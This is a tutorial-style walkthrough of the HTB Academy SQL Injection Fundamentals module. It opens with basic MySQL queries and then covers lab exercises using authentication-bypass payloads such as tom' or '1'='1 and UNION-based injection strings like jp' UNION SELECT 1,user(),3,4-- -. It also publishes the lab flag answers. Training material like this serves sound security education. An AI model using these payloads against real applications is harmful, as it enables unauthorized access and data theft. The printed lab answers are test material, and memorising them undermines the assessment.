Welcome to **Part 17** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **SQL Injection Fundamentals** (Tier I • Medium • Offensive). We break down the underlying mechanics of SQL injection mechanics, In-Band UNION-based SQLi, Error-based SQLi, Blind Boolean and Time-based SQLi, database schema enumeration, and data extraction, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-16-shells-and-payloads/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 16: Shells & Payloads (Reverse, Bind & Web Shells)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 17 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-18-sqlmap-essentials/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 18: SQLMap Essentials for Automated Database Takeover</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `SQL Injection Fundamentals` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/33](https://academy.hackthebox.com/module/33) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 17 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **SQLi Mechanics**: Explains how unsanitized user inputs break SQL query syntax to alter database execution logic.
* **UNION-Based Exploitation**: Determines column counts and data types via `ORDER BY` and extracts data across tables using `UNION SELECT`.
* **Database Schema Enumeration**: Queries `information_schema` to enumerate database names, table structures, and sensitive column definitions.
* **Blind SQL Injection**: Extracts data character-by-character using conditional boolean logic (`AND 1=1`) and time-delay functions (`SLEEP()`).
* **Administrative File Operations**: Reads sensitive operating system files (`LOAD_FILE()`) and writes web shells to disk (`INTO OUTFILE`).

## Executive Summary & Assessment Scope

SQL Injection (SQLi) remains one of the most devastating web vulnerabilities, allowing attackers to bypass authentication, extract entire databases, tamper with critical records, and achieve remote operating system command execution.

This module covers the core principles of SQL injection across multiple database management systems (MySQL, MSSQL, PostgreSQL). We analyze syntax breaking, weaponize UNION queries to dump database contents, execute blind time-based attacks, and leverage database file-writing primitives to compromise the host, validating every flag.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### SQL Injection Fundamentals

#### Technical Methodology & Exploit Execution:

mysql -h <target-IP> -u <username> -P <target-port> -
p<password>
*notice there is no space between the 'p' and '<password>'. *
Credentials will be provided by the sections, unless specified otherwise.
This method will be referred as 'default login' throughout the module.


### Intro to MySQL

> **Lab Question (Page 2)**: Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?
>
> **Flag / Answer**: `employees`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first – lets default login to the mssql server with the provided
credentials 'root:password':

We are presented with the mssql CLI,lets enter in it
```bash
show databases;
```
to display the databases:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### SQL Statements

> **Lab Question (Page 3)**: What is the department number for the 'Development' department?
>
> **Flag / Answer**: `d005`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section – lets use the employees
database:
```bash
use employees;
```


Now our queries will apply on the employee's database. Next, we have to look
at the tables of the database:
```bash
show tables;
```


We will proceed with the 'departments' table.

Lets take a look at its columns:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### use the query

describe departments;

We have 'dept_name' and 'dept_no', we are provided with the 'dept_name'
'Development', and we need to find the matching 'dept_no'. For that we will
```bash
use the query:
```
select dept_no from departments where dept_name =
"Development";


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### Query Results

> **Lab Question (Page 5)**: What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?
>
> **Flag / Answer**: `Mitchem`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous question – we will observe that to the
database 'employees', there is also a table 'employees'.
We need to view its columns first:
describe employees;


Now that we know the columns - the query to find the right employee is:
select last_name from employees where first_name like 'Bar%'
and DATE(hire_date) = '1990-01-01';


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### SQL Operators

> **Lab Question (Page 6)**: In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?
>
> **Flag / Answer**: `654`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section - let's check 'titles' columns first:
describe titles;


Now that we know the name of the columns, lets run the query:
select COUNT(*) from titles where emp_no > 10000 or title
not like '%engineer%';


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Subverting Query Logic

> **Lab Question (Page 7)**: Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?
>
> **Flag / Answer**: `202a1d1a8b195d5e9a57e434cc16000c`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter the target machine URL in the browser:
http://<target-IP>:<target-port>


There are several sql injections we can do here:
Method 1: we will use 'or injection':
userame:
tom' or '1'='1
password: <any>


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### Username

Method 2: we will use comment:
Username:
tom' -- '
password:<any>:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### Using Comments

> **Lab Question (Page 9)**: Login as the user with the id 5 to get the flag.
>
> **Flag / Answer**: `cdad9ecdf6f14b45ff5c4de32909caec`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the query:
Username:
<invalid username>') or (id = 5) --
password: <any>


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Union Clause

> **Lab Question (Page 10)**: Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.
>
> **Flag / Answer**: `663`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, lets default login to the targat machine with the credentials
'root:password':

and we go back to the 'employees' database used in previous sections:


Now, we will run the following query:
SELECT COUNT(*) FROM (SELECT emp_no AS id, first_name AS
name, last_name AS other_info FROM employees UNION SELECT
dept_no AS id, dept_name AS name, NULL AS other_info FROM
departments) AS combined;


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### Union Injection

> **Lab Question (Page 11)**: Use a Union injection to get the result of 'user()'
>
> **Flag / Answer**: `root@localhost`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, lets enter the target website on the browser:
http://<target-IP>:<target-port>
we get to this search page:

Random search of port code, lets say 'jp' will give us this:

However we can run my-sql injection here, lets try random payload to test it:
' order by 2-- -


*the extra dash (-) at the end, to show that there is a space after (--). *


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### We will repeat the process for values 3,4... and 5

We will repeat the process for values 3,4... and 5:
' order by 5-- -


The system didn't recognize column 5, telling us that the table has 4 columns.
*we can also use 'cn' UNION select 1,2,3,4-- -' to confirm the table has 4
columns, of course for different table with different columns number we will
have to adjust the command accordingly, for example for table with 2 columns
we will run 'cn' UNION select 1,2-- -'. *

Now that we know the table has 4 colunmns, we can run the query to retrieve
the 'user()':
jp' UNION SELECT 1,user(),3,4-- -


*_Figure 12.1 — Lab execution and output verification (Page 12)_*

